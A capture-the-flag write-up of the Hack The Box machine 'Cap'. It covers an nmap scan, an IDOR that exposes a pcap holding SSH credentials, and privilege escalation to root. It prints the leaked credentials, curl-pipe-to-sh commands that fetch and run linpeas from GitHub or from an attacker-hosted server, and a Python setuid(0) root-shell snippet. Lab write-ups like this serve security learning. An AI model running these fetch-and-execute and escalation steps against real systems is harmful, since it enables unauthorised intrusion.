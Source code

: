 # Cap Write-up

<img src="https://labs.hackthebox.com/storage/avatars/70ea3357a2d090af11a0953ec8717e90.png" width="200" height="200">

## Recon 

### Port enumeration with NMap

`nmap -sC -sV 10.10.10.245`

    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     vsftpd 3.0.3
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
    |   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
    |_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
    80/tcp open  http    gunicorn
    |_http-title: Security Dashboard
    | fingerprint-strings: 
    |   FourOhFourRequest: 
    |     HTTP/1.0 404 NOT FOUND
    |     Server: gunicorn
    |     Date: Tue, 03 Dec 2024 11:35:14 GMT
    |     Connection: close
    |     Content-Type: text/html; charset=utf-8
    |     Content-Length: 232
    |     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
    |     <title>404 Not Found</title>
    |     <h1>Not Found</h1>
    |     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
    |   GetRequest: 
    |     HTTP/1.0 200 OK
    |     Server: gunicorn
    |     Date: Tue, 03 Dec 2024 11:35:05 GMT
    |     Connection: close
    |     Content-Type: text/html; charset=utf-8
    |     Content-Length: 19386
    |     <!DOCTYPE html>
    |     <html class="no-js" lang="en">
    |     <head>
    |     <meta charset="utf-8">
    |     <meta http-equiv="x-ua-compatible" content="ie=edge">
    |     <title>Security Dashboard</title>
    |     <meta name="viewport" content="width=device-width, initial-scale=1">
    |     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
    |     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
    |     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
    |     <link rel="stylesheet" href="/static/css/themify-icons.css">
    |     <link rel="stylesheet" href="/static/css/metisMenu.css">
    |     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
    |     <link rel="stylesheet" href="/static/css/slicknav.min.css">
    |     <!-- amchar
    |   HTTPOptions: 
    |     HTTP/1.0 200 OK
    |     Server: gunicorn
    |     Date: Tue, 03 Dec 2024 11:35:06 GMT
    |     Connection: close
    |     Content-Type: text/html; charset=utf-8
    |     Allow: OPTIONS, HEAD, GET
    |     Content-Length: 0
    |   RTSPRequest: 
    |     HTTP/1.1 400 Bad Request
    |     Connection: close
    |     Content-Type: text/html
    |     Content-Length: 196
    |     <html>
    |     <head>
    |     <title>Bad Request</title>
    |     </head>
    |     <body>
    |     <h1><p>Bad Request</p></h1>
    |     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
    |     </body>
    |_    </html>
    |_http-server-header: gunicorn
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port80-TCP:V=7.94SVN%I=7%D=12/3%Time=674EECE9%P=x86_64-pc-linux-gnu%r(G
    SF:etRequest,2F4C,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\
    SF:x20Tue,\x2003\x20Dec\x202024\x2011:35:05\x20GMT\r\nConnection:\x20close
    SF:\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20
    SF:19386\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"en\
    SF:">\n\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20
    SF:\x20<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\x
    SF:20\x20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<me
    SF:ta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-sca
    SF:le=1\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"im
    SF:age/png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20\x
    SF:20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.css
    SF:\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/
    SF:font-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\
    SF:x20href=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x20r
    SF:el=\"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x20
    SF:\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.mi
    SF:n\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/stati
    SF:c/css/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPOpt
    SF:ions,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Tue,
    SF:\x2003\x20Dec\x202024\x2011:35:06\x20GMT\r\nConnection:\x20close\r\nCon
    SF:tent-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20OPTIONS,\x20HEAD
    SF:,\x20GET\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\.1
    SF:\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x20t
    SF:ext/html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x20\
    SF:x20\x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<bod
    SF:y>\n\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20Inv
    SF:alid\x20HTTP\x20Version\x20&#x27;Invalid\x20HTTP\x20Version:\x20&#x27;R
    SF:TSP/1\.0&#x27;&#x27;\n\x20\x20</body>\n</html>\n")%r(FourOhFourRequest,
    SF:189,"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:\x
    SF:20Tue,\x2003\x20Dec\x202024\x2011:35:14\x20GMT\r\nConnection:\x20close\
    SF:r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x202
    SF:32\r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2\
    SF:x20Final//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</
    SF:h1>\n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x20
    SF:server\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x2
    SF:0check\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

### WEB 

![image](https://github.com/user-attachments/assets/ad734ab8-84dc-47ab-95aa-957270f3dd59)

IP config

![image](https://github.com/user-attachments/assets/f92207a3-25e2-4916-9916-64f7a61cc292)

Network Status

Security Snapshot

![image](https://github.com/user-attachments/assets/e9e48544-a992-4873-ab77-2ff74b04ffeb)

## Exploitation 

### IDOR

http://10.10.10.245/data/0

![image](https://github.com/user-attachments/assets/3a7f9411-16db-4c4d-8934-b43ee62cb419)

0.pcap

![image](https://github.com/user-attachments/assets/54407fd9-171b-410c-93ba-183c870c7876)

Credentials

`nathan`:`Buck3tH4TF0RM3!`

### SSH

Connect to SSH via `nathan` credetials!

    ssh nathan@10.10.10.245

Get the user flag!

![image](https://github.com/user-attachments/assets/6dc06f66-6358-4971-9cf8-d16cfc49df59)

### Privelege Escalation 

[LinPeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)

[![asciicast](https://asciinema.org/a/250532.png)](https://asciinema.org/a/309566)

You can run linpeas from github

    curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

Or get it localy and run it. 

    # on host
    wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh

    python3 -m http.server 80

    # on victim

    curl -l http://your-address/linpeas.sh | sh

![image](https://github.com/user-attachments/assets/7f6cffe7-c8c8-4f44-b84a-e6701aa460f9)

    import os
    os.setuid(0)
    os.system("/bin/bash")

![image](https://github.com/user-attachments/assets/358bf82f-c230-4527-8cd4-1a560104a1b5)

Get the root flag!

![image](https://github.com/user-attachments/assets/776e3744-fc39-43ab-8039-0642018e9647)
